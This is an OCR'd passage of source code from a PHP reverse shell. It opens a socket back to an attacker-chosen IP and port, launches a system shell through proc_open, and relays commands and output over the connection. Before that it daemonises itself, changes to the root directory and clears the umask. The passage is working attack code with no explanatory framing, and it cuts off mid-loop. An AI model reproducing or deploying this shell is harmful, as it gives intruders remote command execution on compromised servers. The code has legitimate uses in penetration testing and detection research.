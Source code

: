 ```css
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
```